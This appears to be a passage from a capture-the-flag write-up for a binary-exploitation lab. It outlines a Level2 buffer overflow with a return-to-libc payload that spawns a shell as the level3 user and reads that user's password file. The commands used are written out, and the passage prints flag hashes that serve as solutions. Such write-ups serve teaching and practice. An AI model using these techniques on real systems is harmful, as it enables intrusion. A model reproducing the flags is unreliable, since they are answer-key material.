 ### Result:
	53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
  
## Level2:
### Code after RE:
![level2.png](ressource/level2.png)
### Solution:
- We can overflow the buffer inside the ``p`` function.
- We craft a payload the change the return address of gets to the return inside the ``main`` function.
- We add to the payload the address of the function ``system`` inside the glibc with ``/bin/sh`` as argument.
- ``python3 ./level2/craft_payload.py && scp -P 4243 ./payload level2@localhost:/tmp/payload``
- ``cat payload | ./level2`` (This spawn a shell as level3 user)
- ``cat /home/level3/.pass``
### Result:
    492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

## Level3:
### Code after RE: